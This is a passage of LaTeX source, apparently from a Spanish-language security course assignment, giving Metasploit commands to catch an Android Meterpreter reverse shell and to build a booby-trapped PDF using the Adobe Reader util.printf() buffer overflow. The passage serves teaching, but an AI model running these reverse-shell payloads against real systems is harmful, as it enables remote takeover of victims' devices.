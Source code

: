 Una vez instalada la aplicación en el dispositivo Android al cual se desea atacar, se debe ejecutar la consola de \emph{Metasploit} (con el comando \texttt{msfconsole}), e ingresar lo siguiente:

\begin{itemize}
    \item \texttt{use exploit/multi/handler} 
    \item \texttt{set payload android/meterpreter/reverse\_tcp} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

\begin{figure}[H]
    \centering
    \texttt{[image: meterpreter-android]}
    \caption{Conexión desde \texttt{msfconsole} a un dispositivo Android}
\end{figure}

\subsection{Windows}

\emph{Basado en ejemplo aterior, como realizaría el mismo ataque contra un equipo Microsoft Windows. Puede utilizar un archivo PDF como vector de ataque} 

Dentro de la suite de programas de Adobe, uno de los más usado es su lector de PDFs, \textbf{Adobe Reader}. Este programa posee varias vulnerabilidades de las cuales uno se puede aprovechar para inyectar código malicioso en un archivo PDF. De las vulnerabilidades disponibles, a continuación se mostrará cómo explotar dos de ellas disponibles en Metasploit.

La primera de ellas, se trata de un \emph{desbordamiento del buffer} (\emph{buffer overflow}) de la pila de funciones de JavaScript con la función \texttt{util.printf()} \autocite{JSStackBufferOverflow}. Para inyectar el código en el archivo PDF se debe ejecutar los siguientes comandos en la consola de \texttt{msfconsole}:

\begin{itemize}
    \item \texttt{use exploit/windows/fileformat/adobe\_utilprintf}
    \item \texttt{set FILENAME <NOMBRE\_DEL\_ARCHIVO>.pdf}
    \item \texttt{set payload windows/meterpreter/reverse\_tcp}
    \item \texttt{set LHOST <IP>}
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

